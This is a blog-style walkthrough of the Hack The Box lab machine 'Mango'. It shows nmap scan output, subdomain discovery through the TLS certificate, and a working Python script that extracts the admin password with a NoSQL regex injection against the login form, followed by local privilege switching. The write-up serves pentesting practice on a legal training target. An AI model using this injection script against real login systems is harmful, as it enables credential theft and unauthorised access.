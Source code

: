 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: true
tags: ["pentesting","htb"]
reads: 3
---
```


Hack the Box is a website for  pentesting. Mango was the first  box I got user access to! First I did a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan I knew there were two websites and ssh was running. The first thing I did was look at what was hosted on port 80 and 443.  On port 80 I didn't find anything. But I port 443 I found a website that looked like a clone of the google search page.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button.  which I poked around on. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up mango in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed csvs to see if that would do anythin but nope. I think took a look at the ssl certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb. I found a login page.
![login screen](/img/mango/login.jpg)
I then tried to to different types of injections on the login in page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts user and admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mango db. By using a regular expression matches on the first characters of the password. When we start with an empty password we check if the password starts with a or with b and so on. The http status code 302 tells us that there was a match which lets us enumerate the user passwords. Using the admin creds I was an unable to  ssh onto the box.  But I was able to get onto to the box using the mangos creds. I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```




